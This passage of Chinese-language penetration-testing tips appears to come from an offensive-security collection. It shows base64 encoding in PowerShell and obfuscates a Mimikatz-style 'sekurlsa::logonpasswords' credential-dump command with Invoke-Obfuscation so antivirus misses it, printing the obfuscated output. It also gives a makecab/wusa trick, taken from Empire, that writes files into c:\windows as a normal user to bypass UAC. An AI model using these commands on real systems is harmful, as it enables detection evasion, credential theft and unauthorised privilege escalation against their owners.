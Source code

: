 ```
$encoded = [System.Convert]::ToBase64String($fileContent)
```

解码：

```
$fileContent = [System.Convert]::FromBase64String($encoded)
```

参考：《Study Notes of using BGInfo to bypass Application Whitelisting》

#### Tips 36 如果powershell脚本被查杀，可以尝试使用Invoke-Obfuscation进行混淆

https://github.com/danielbohannon/Invoke-Obfuscation

eg.

设置要混淆的代码：

```
set scriptblock " Invoke-111111 -Command "log privilege::debug sekurlsa::logonpasswords exit" "
```

输入`encoding`

输入`1`，指定编码为ascii

得到混淆后的代码：

```
" $(SEt-iTem  'VARIaBle:OFS' '' ) "+ [StRinG](( 73,110 , 118 ,111, 107, 101, 45, 49, 49 ,49 ,49 ,49 , 49, 32 , 45 , 67, 111, 109 , 109, 97 , 110 , 100 , 32,34,108, 111, 103 ,32, 112 ,114 , 105,118,105,108, 101, 103 ,101, 58 , 58 , 100 , 101 , 98, 117 ,103,32 , 115,101,107 ,117,114 , 108,115, 97 ,58 , 58, 108 ,111 ,103,111,110, 112, 97, 115 ,115,119, 111, 114, 100, 115, 32, 101, 120,105,116 ,34 )|FOReacH-objeCT{( [ChAR][iNT] $_) } ) +"$( Set-variAbLE  'oFS'  ' ' ) "|. ( $env:PUbLic[13]+$eNv:PuBlIc[5]+'x')
```

#### Tips 37 python脚本转exe

常见的两种方法：

使用方法和常见bug解决方法可参照参考链接

参考：《本地密码查看工具LaZagne中的自定义脚本开发》

#### Tips 38 普通用户权限向管理员权限的路径下写文件

eg.

以普通用户权限向`c:\windows`文件夹下释放文件

```
makecab c:\test\test.exe %TMP%\1.tmp
wusa %TMP%\1.tmp /extract:"c:\windows" /quiet
```

适用于Win7、Win8，学习自：

https://github.com/EmpireProject/Empire/blob/master/data/module_source/privesc/Invoke-WScriptBypassUAC.ps1
